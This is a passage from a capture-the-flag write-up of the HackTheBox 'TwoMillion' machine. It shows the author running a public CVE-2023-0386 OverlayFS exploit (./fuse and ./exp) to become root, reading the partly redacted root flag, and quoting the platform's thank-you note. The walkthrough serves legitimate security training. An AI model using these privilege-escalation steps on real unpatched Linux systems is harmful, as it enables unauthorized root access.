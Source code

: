 ```ruby
admin@2million:/tmp/CVE-2023-0386-main$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
```

In the first session, I’ll run the next command from the instructions:
```ruby
admin@2million:/tmp/CVE-2023-0386-main$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
```

```ruby
admin@2million:/tmp/CVE-2023-0386-main$ ./exp 
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Jun  2 23:11 .
drwxrwxr-x 6 root   root     4096 Jun  2 23:11 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386-main#
```

WOOT WOOT we are root now we can just copy the root flag.
```ruby
root@2million:/root# cat root.txt
02336e92<snip>2e24
```

And there is 1 thankyou note as well.
```ruby
 Dear HackTheBox Community,
 
 We are thrilled to announce a momentous milestone in our journey together. With immense joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users! This incredible feat would not have been possible without each and every one of you.
 
 From the very beginning, HackTheBox has been built upon the belief that knowledge sharing, collaboration, and hands-on experience are fundamental to personal and professional growth. Together, we have fostered an environment where innovation thrives and skills are honed. Each challenge completed, each machine conquered, and every skill learned has contributed to the collective intelligence that fuels this vibrant community.
 
To each and every member of the HackTheBox community, thank you for being a part of this incredible journey. Your contributions have shaped the very fabric of our platform and inspired us to continually innovate and evolve. We are immensely proud of what we have accomplished together, and we eagerly anticipate the countless milestones yet to come.
 
Here’s to the next chapter, where we will continue to push the boundaries of cybersecurity, inspire the next generation of ethical hackers, and create a world where knowledge is accessible to all.
 
With deepest gratitude,

The HackTheBox Team
```


